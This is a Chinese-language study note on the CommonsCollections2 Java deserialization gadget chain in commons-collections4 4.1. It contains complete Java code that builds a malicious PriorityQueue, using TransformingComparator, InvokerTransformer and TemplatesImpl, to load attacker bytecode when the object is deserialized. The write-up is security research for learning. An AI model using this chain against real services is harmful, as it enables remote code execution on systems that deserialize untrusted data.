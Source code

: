 # CommonsCollections2分析

## 1.环境搭建

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.1</version>
</dependency>
```

## 2.调试分析

在 commons-collections4:4.1 依赖中原来实现反序列化接口的类被修改了，只能寻找一些其它的类。在该链子中利用`PriorityQueue`作为入口类调用其的compare方法

![image-20240418152428999](./img/image-20240418152428999.png)

comparator变量可控，利用`TransformingComparator#compare(...)`，其中存在`transform(...)`方法，同样的`this.transformer`变量可控可序列化

![image-20240418152638038](./img/image-20240418152638038.png)

接着利用`InvokerTransformer#transform(...)`,在方法中存在反射调用，所以调用到`TemplatesImpl#newTransformer()`来触发字节码加载。

代码构造如下：

```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesImplClass = templates.getClass();

  Field name = templatesImplClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates,"aaaa");

  Field byteCodes = templatesImplClass.getDeclaredField("_bytecodes");
  byteCodes.setAccessible(true);
  byteCodes.set(templates,new byte[][]{Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/com/learning/security/serialization/commons/Exp.class"))});

  Field tfactory = templatesImplClass.getDeclaredField("_tfactory");
  tfactory.setAccessible(true);
  tfactory.set(templates,new TransformerFactoryImpl());
//============================================================================================================================================

  InvokerTransformer newTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});

  TransformingComparator transformingComparator = new TransformingComparator(newTransformer);

  PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
  Class priorityClass = priorityQueue.getClass();
  Field size = priorityClass.getDeclaredField("size");
  size.setAccessible(true);
  size.set(priorityQueue,2);

  Field queue = priorityClass.getDeclaredField("queue");
  queue.setAccessible(true);
  queue.set(priorityQueue,new Object[]{templates,templates});


  byte[] serialize = serialize(priorityQueue);
  unSerialize(serialize);
```

## 3.反序列化利用链图

![image-20240418152058173](./img/image-20240418152058173.png)
